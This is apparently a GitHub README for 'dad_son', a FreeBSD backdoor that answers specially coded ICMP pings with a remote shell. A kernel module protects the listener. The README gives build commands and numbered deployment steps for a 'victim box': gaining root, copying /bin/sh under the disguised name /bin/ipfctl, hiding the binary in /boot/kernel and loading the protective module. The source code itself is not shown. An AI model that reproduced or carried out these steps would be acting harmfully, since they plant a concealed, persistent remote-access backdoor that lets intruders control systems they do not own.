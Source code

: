 # dad_son

Malware that listens for ICMP echo requests with a code of 1 and sends back a shell to that IP, and a FreeBSD kernel module that protects that listener/shell giver. This readme will be expanded later on.

## Requirements

libpcap, and the executable that you want to run on ping as /bin/ipfctl. stdin, out, and err are redirected from son to this executable.

## Build

To compile dad.ko, simply run make on a system with the FreeBSD kernel source tree of your choice in /usr/src. To compile son, run `gcc -o son son.c -lpcap`.

## Steps to Deploy
1. Transfer dad.ko and son to victim box. SCP? detcord?
2. Make sure you are the root user
3. Copy /bin/sh to /bin/ipfctl `cp /bin/sh /bin/ipfctl`
4. Copy son into /boot/kernel `cp son /boot/kernel/.`
5. Load dad Kernel Module `kldload ./dad.ko`
6. Start son binary `./ipfctl.sh`
7. Verify that things are working
